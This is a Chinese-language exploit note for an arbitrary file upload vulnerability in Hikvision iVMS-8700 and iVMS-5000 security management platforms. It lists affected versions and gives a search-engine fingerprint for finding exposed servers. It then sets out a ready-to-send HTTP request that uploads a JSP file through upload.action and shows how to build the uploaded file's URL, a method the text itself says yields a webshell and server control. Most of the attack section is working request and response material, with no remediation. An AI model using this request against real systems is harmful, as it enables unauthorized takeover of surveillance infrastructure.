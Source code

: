 # 海康威视iVMS-8700综合安防管理平台 upload.action 任意文件上传

# 一、漏洞简介
  海康威视iVMS集中监控应用管理平台，是以安全防范业务应用为导向，以视频图像应用为基础手段，综合视频监控、联网报警、智能分析、运维管理等多种安全防范应用系统，构建的多业务应用综合管理平台。HIKVISION iVMS-8700综合安防管理平台存在任意文件上传漏洞，攻击者通过发送特定的请求包可以上传Webshell文件控制服务器。

# 二、影响版本
+ 海康威视综合安防系统iVMS-5000
+ 海康威视综合安防系统 iVMS-8700

# 三、资产测绘
+ hunter：`web.body="/views/home/file/installPackage.rar"`

![1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0.png](./img/bWyBo5fSbGoz212v/1691851218187-fa3d0a98-32b2-48ea-a294-7c7f565c20f0-912698.png)

+ 登录页面：

![1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111.png](./img/bWyBo5fSbGoz212v/1691851119101-58fb28dd-18f8-4fca-b027-9931d8ce0111-920145.png)

# 四、漏洞复现
```plain
POST /eps/resourceOperations/upload.action HTTP/1.1
Host: xx.xx.xx.xx
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: MicroMessenger
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ISMS_8700_Sessionname=CA0F207A6372FE883ACA78B74E6DC953; CAS-USERNAME=058; ISMS_8700_Sessionname=4D808BE7BE0E5C7047B9688E6009F710
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Length: 212

------WebKitFormBoundaryTJyhtTNqdMNLZLhj
Content-Disposition: form-data; name="fileUploader";filename="test.jsp"
Content-Type: image/jpeg

<%out.print("hello");%>
------WebKitFormBoundaryTJyhtTNqdMNLZLhj--
```

![1700226259831-01874e31-0fdb-4719-bd14-5f1e64019ea0.png](./img/bWyBo5fSbGoz212v/1700226259831-01874e31-0fdb-4719-bd14-5f1e64019ea0-358413.png)

根据响应拼接上传文件地址

```plain
/eps/upload/ebaae9074e254f829c8de29bb5cfcb1c.jsp
```

![1700226291441-59c6dd72-c5c0-42be-9f28-e8861a960b9f.png](./img/bWyBo5fSbGoz212v/1700226291441-59c6dd72-c5c0-42be-9f28-e8861a960b9f-371534.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/nut2noq5hg2uq96x>